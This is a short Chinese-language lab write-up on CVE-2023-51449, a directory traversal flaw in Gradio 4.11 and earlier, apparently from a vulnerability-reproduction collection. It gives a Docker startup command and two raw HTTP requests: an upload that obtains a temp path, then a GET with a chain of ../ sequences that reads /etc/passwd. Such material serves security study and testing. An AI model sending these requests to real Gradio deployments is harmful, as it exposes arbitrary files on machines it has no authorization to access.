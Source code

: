 # Gradio `file` 目录遍历漏洞（CVE-2023-51449）

Gradio 是一个用于创建机器学习模型交互式界面的 Python 库，通过 Gradio，可以快速地为模型构建一个可视化的、易于使用的 Web 界面，无需编写任何前端代码。

Gradio 4.11 及以下版本，在未启用身份验证时如果知道要查找的文件路径，就可以使用公共 URL 访问运行 Gradio 应用程序的机器上的任意文件（例如，如果演示是使用 `share=True` 创建的，或者在 Hugging Face Spaces 上创建的）。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## 环境启动

执行如下命令启动 Gradio 环境：

```
docker compose up -d
```

启动成功后访问，默认没有身份验证。

```
http://your-ip:7860
```

## 漏洞复现

使用 upload 接口随便上传一段内容，需要获取到一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```
![image-20250424134122049](1.png)

得到一个可访问的文件路径后使用 file 接口访问并使用目录遍历读取文件，即可成功读取。

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```
![image-20250424134351720](2.png)